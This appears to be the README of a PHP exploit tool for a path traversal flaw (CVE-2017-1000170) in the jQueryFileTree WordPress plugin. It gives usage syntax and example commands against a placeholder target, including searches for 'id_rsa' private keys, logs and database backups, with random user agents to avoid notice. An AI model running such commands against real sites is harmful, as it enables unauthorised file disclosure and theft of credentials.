 # Jquery-File-Tree-1.6.6-Path-Traversal
Jquery File Tree 1.6.6 Path Traversal exploit (CVE-2017-1000170)

The jQueryFileTree <1.6.6 plugin for Wordpress default settings fail to parse the user data causing a path traversal vulnerability.

This allows an attacker to list all the filesnames of all readable folders of the webserver. 

Added to a local file inclusion or local file disclosure attack this can lead to arbitrarily download any readable file of the server.

# Usage

`$ xpl_jqueryFileTree.php -u url [-f extensions/filenames] [-p path] [-r] [-h] [-a]`

Legend:
```
  -h, --help: Show this message
  -u, --url: URL of target
  -a, --random-agent: Use random user agents
  -f, --filter: Name of files or extensions to search for (separated by comma)
  -p, --path: The full path from which the filenames will be read (default: /)
  -r, --recursive: Generates the tree recursivelly (be careful)

  e.g.: xpl_jqueryFileTree.php -u victim.com -f .zip,.sql -p /var/www/html/backup/admin/ -r
        |
         \-> This will search for all .zip and .sql files inside victim.com/backup/admin and its subpaths
             (You must provide the dot to indicate it's an extension)

        xpl_jqueryFileTree.php -u victim.com -f .log,id_rsa -a -r
        |
         \-> This will search for all files named "id_rsa" or having the extension
             ".log" within all folders of the server, with random user-agents

        Tip: use "php ..... | tee output" to save the result to an output file
```

![](https://i.imgur.com/K2ITuMg.png)
